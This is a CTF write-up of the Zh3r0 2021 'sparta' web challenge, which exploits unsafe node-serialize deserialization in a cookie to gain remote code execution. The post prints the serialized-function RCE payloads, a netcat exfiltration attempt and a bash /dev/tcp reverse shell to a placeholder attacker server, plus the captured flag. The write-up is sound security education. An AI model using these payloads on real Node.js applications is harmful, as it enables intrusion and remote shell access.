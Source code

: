 ```yaml
---
layout: post
title: Zh3r0 CTF 2021 Writeup
published: true
categories: [Misc, Web]
excerpt: Only managed to jump in for 3 hours as I had to prepare and play in Japan Rapid Chess Grand Prix. I realised I haven't written a deserialization post so here's one! Only solved part of sparta and maniac's game. Took a look at some other webs but the source wasn't included so didn't try. 
---
```


Only managed to jump in for 3 hours as I had to prepare and play in Japan Rapid Chess Grand Prix. I realised I haven't written a deserialization post so here's one! Only solved part of sparta and maniac's game. Took a look at some other webs but the source wasn't included so didn't try.

---

## Web

---

# sparta

#### Category: Web | 100 points

<details>
  <summary>Challenge Description</summary>
  
Spartanians are starting to lose their great power, help them move their objects and rebuild their Empire.}
</details>

This was a node JS deserialization challenge. We're given the source code so there was no guessing.

Here is the relevant part of the code we want to be looking at:

**server.js**    
```javascript
app.post('/guest', function(req, res) {
   if (req.cookies.guest) {
   	var str = new Buffer(req.cookies.guest, 'base64').toString();
   	var obj = serialize.unserialize(str);
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username 
	 var country = req.body.country 
	 var city = req.body.city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello!");
});
```
So basically in the `guest` route, the value of the `guest` cookie is read and unsafely `unserialize()`. We can confirm this in the request where a user enters their details on the guest page, resulting in a base64 cookie being set with the value `{"username":"your value","country":"your value","city:"your value"}`.

Hence we came up with a simple RCE code, taking in mind the location of the flag from the Dockerfile. We pass this through the `serialize()` function so that it is valid value for `unserialize()`. 

```javascript
var tmp = {
 rce : function(){
 require('child_process').exec('cat /flag.txt', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(tmp));
```  

This returned `_$$ND_FUNC$$_function (){\n  require('child_process').execSync('cat /flag.txt"', function puts(error, stdout, stderr) {});\n}()`, which we promptly put as the value of the username and base64 encoded it, as follows:

Taking note of the location of the flag in the Dockerfile and passing our RCE code through the `serialize()` function of node JS, we put the following payload into the username field, like this `{"username":"_$$ND_FUNC$$_function (){\n  require('child_process').execSync('cat /flag.txt"', function puts(error, stdout, stderr) {});\n}()","country":"1","city":"1"}`, which results in a blank response getting returned. Wait, what?

After pondering for a second, it was apparent that a reverse shell is needed because successfully executing `cat` on the server does not lead to us being able to know the flag. Hence the next obvious step is to go for `netcat` and pipe the output to the listener on our server.

`{"username":"_$$ND_FUNC$$_function (){\n  require('child_process').execSync(\"cat /flag.txt > nc myserverlol 1337", function puts(error, stdout, stderr) {});\n}()","country":"1","city":"1"}`

Which unfortunately didn't work, and we were stumped. We got stuck here until Blazefrost came in and we found out that the server simply did not have netcat installed. Hence we tweaked our payload to one that uses `/dev/tcp` instead and finally got a reverse shell that sent the flag to our server: `{"username":"_$$ND_FUNC$$_function (){\n  require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/myserver_IP/myserver_PORT 0>&1\"', function puts(error, stdout, stderr) {});\n}()","country":"1","city":"1"}`.

And then execute `cat /flag.txt` and we got the flag!


<details>
  <summary>FLAG</summary>
  
   zh3r0{4ll_y0u_h4d_t0_d0_w4s_m0v3_th3_0bjc3ts_3mper0r}
</details>

***

